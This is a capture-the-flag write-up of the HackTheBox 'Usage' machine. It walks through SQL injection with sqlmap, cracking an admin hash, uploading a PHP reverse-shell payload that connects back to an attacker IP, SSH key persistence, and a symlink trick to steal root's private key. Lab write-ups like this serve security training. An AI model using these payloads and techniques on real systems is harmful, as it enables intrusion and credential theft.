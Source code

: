 # HackTheBox - Usage
---

## Initial Enumeration

After starting the machine, we are provided with an IP of 10.10.11.18.

An initial scan `(nmap -p- -Pn --disable-arp-ping --min-rate 300 --stats-every=5s 10.10.11.18)` reveals open ports 22 and 80. A follow-up scan to further enumerate `(sudo nmap -O -sV -p 22,80 10.10.11.18)` provides the following details:

![](img/Usage1.png)

Further research provides no known vulnerabilities for either of these services, nor kernel exploits for the OS.

Attempting to view the web service gets an error, but provides us with the domain of usage.htb – adding this to our /etc/hosts file enables us to view the following on the web service:

![](img/Usage2.png)

Further fingerprinting on the webservice using whatweb as well as looking through the page source provides the following information:

![](img/Usage3.png)

Unable to find any known vulnerabilities for this technology stack, we take a look at the functionality of the rest of the webpage. Initially we check each field for SQLi in each field in the login fields using a variety of payloads (very useful set of payloads found here: https://github.com/payloadbox/sql-injection-payload-list), and find nothing.

Checking for SQLi under the password reset link, however, nets us the following:

![](img/Usage4.png)

Here, we have evidence that the email field in the POST request to /forget-password is vulnerable to a blind, time-based SQLi attack. This will prove to be considerably harmful to data confidentiality.

---
## Initial Compromise

We use our browser proxy to save an intercepted POST request, and use it to run an attack using sqlmap `(sqlmap -r ForgotPasswordPOST -p email –level=5)`. This discovers that a time-based blind injection with an eight-clause UNION query is able to enumerate database information. Doing so, we are able to enumerate the entire database. Of particular note is the following, from the “usage_blog.admin_users” table:

![](img/Usage5.png)

We can crack this hash with johntheripper, getting the following password using the rockyou.txt wordlist, getting us the password “whatever1”.

We would not have been able to crack this without significant time and compute resources had a better password policy been enforced.

This allows us to login to the admin dashboard using the “admin” username. From that dashboard, we are presented with a good deal of new information about the technology stack used in this website:

![](img/Usage6.png)

After some investigation, we come across [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/) related to the encore/laravel-admin package, indicating that we can arbitrarily upload php scripts to the server to attain arbitrary code execution.

We create the following script to give us a remote shell:
```html
<html>
	<body>
		<?PHP system('php -r \'$sock=fsockopen(“10.10.14.11”,1337);exec(“sh <&3 >&3 2>&3”);\''); ?>
	</body>
</html>
```

We save this script with a .jpg extension and then attempt to upload it via the admin area's user avatar upload interface. Capturing this request, we permit it to run, then replay it, adding a “.php” to the end of the file.

![](img/Usage7.png)

Refreshing the upload interface, we now can see that our script has been uploaded.

![](img/Usage8.png)


We now start a netcat listener on our machine `(nc -lvnp 1337)`. By clicking the download link (or navigating to /uploads/images/script.jpg.php), we execute our script and can see that we have gained a reverse shell.

![](img/Usage9.png)

Now that we have remote access with the user “dash”, we stabilize our access and gain persistence by adding our public ssh key to the user's /home/user/.sh/authorized_keys file. We can now log in to the server as dash with full terminal functionality whenever we like.

---
## Privilege Escalation

Further enumeration shows that there is another user on this machine, “xander”. By sifting through log and configuration files, we find a number of passwords written in plaintext. It is with the password “3nc0d3d_pa$$w0rd” found in /home/dash/.monitrc that we are able to log in as xander.


Doing a little bit of investigation into the xander user reveals that, unlike dash, xander has limited access to sudo:

![](img/Usage10.png)

Naturally, anything that we can execute as a superuser merits further investigation. Running the command (without sudo rights, to limit possible damage caused by executing an unknown binary) nets us the following:

![](img/Usage11.png)

We have selected to use the “Project Backup” option as there is nothing in the MySQL database that we do not already have access to, nor do we want to necessarily reset the admin password just yet and possibly cause undo interference with the normal administration of the machine.

The backup option does seem to attempt to create a zip file in /var/backups. If running it requires superuser permissions, it is possible some interesting files may end up in that backup. We run the backup again, this time with sudo functionality. We go to the backup, unzip it, and investigate. We do not have permissions to write in the folder where it was made, so we will copy it to xander's home directory and unzip there. When unzipped, we find backups of the contents of /var/www/html/. We already had full read/write access to these files as dash. However, since this backup was made with superuser functionality, this gives us an opportunity.

As dash, we go to the /var/www/html/ directory and, in it, create a symlink to /root/. Then, logged back into xander, we run the project backup once again. This time, when unzipped, the project backup contains the contents of the /root/ folder, complete with .ssh folder, which contains the root user's public and private keys.

![](img/Usage12.png)

From here, we can use the keys to log in to root via ssh from out attacking machine, providing complete control over the server.

![](img/Usage13.png)